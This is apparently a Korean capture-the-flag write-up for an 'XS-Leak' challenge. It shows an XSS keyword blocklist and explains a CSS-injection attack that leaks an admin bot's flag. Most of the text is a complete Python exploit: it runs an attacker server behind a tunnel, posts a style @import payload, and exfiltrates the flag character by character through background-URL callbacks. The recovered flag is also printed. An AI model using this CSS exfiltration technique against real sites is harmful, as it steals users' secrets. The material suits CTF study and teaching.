

# XS-Leak

```python
vulns = ["javascript","script","frame","object","embed","on","data","base",
         "\\u","&#","alert","fetch","xmlhttprequest","eval","constructor"]
```

`<style>` 태그를 막지 않아 css injection이 가능함을 유추해 볼 수 있다. 또 admin이 글을 보면
`<a href="javascript:alert('FLAG')">` 가 렌더 된다는 정보가 있으므로 `[attr^=]` 구문과
`background:` 기능을 사용해 flag를 복원할 수 있을 것이다. 페이로드의 전체적인 과정은 다음과 같다.

로그인을 하고 `<style>@import` 로 CSS 구문을 삽입한다. 글을 작성하고 해당 글을 admin이 방문하게 한다.
봇이 `/css` 를 받고 `background` 가 동작해 flag를 찾는다.

```python
import re, time, threading
import urllib.parse as up
from http.server import BaseHTTPRequestHandler, ThreadingHTTPServer
import requests

BASE     = "http://edu.arang.kr:9106"
BOT_HOST = "edu.arang.kr:9106"
PUBLIC   = "https://harder-influenced-soma-tax.trycloudflare.com"
PORT     = 8000

CHARSET = []
for c in range(0x20, 0x7f):
    if c not in (0x22, 0x5c):
        CHARSET.append(chr(c))

flag = "flag{"
got  = threading.Event()

def make_css(p):
    rules = [
        f"a[href^=\"javascript:alert('{p}{ch}\"]{{background:url('{PUBLIC}/leak?c={up.quote(p + ch)}')}}"
        for ch in CHARSET
    ]
    return "\n".join(rules).encode()

class Handler(BaseHTTPRequestHandler):
    def log_message(self, *_): pass

    def do_GET(self):
        global flag
        req = up.urlparse(self.path)

        if req.path == "/css":
            body = make_css(flag)
            self.send_response(200)
            self.send_header("Content-Type", "text/css")
            self.end_headers()
            self.wfile.write(body)
        elif req.path == "/leak":
            l = up.parse_qs(req.query).get("c", [""])[0]
            if l.startswith(flag) and len(l) > len(flag):
                flag = l[:len(flag) + 1]
                got.set()
            self.send_response(200)
            self.end_headers()
        else:
            self.send_response(404)
            self.end_headers()

def my_last_seq(sess):
    html = sess.get(f"{BASE}/board", timeout=15).text
    seqs = [int(n) for n in re.findall(r'/board/(\d+)"', html)]
    return max(seqs) if seqs else None

def serve():
    ThreadingHTTPServer(("0.0.0.0", PORT), Handler).serve_forever()

def main():
    threading.Thread(target=serve, daemon=True).start()
    print("listening")

    sess = requests.Session()
    sess.post(f"{BASE}/login", data={"userid": "a", "userpw": "a"}, timeout=15)
    sess.post(f"{BASE}/write",
              data={"subject": "x", "content": f"<style>@import '{PUBLIC}/css';</style>"})
    seq = my_last_seq(sess)

    while not flag.endswith("}"):
        got.clear()
        sess.post(f"{BASE}/report", data={"url": f"http://{BOT_HOST}/board/{seq}"}, timeout=15)
        print(f"semiFLAG = {flag!r}")

    print(f"\nFLAG = {flag}")

if __name__ == "__main__":
    main()
```



`flag{c1a7abb092d8959e7b54}` 플래그를 획득할 수 있다.
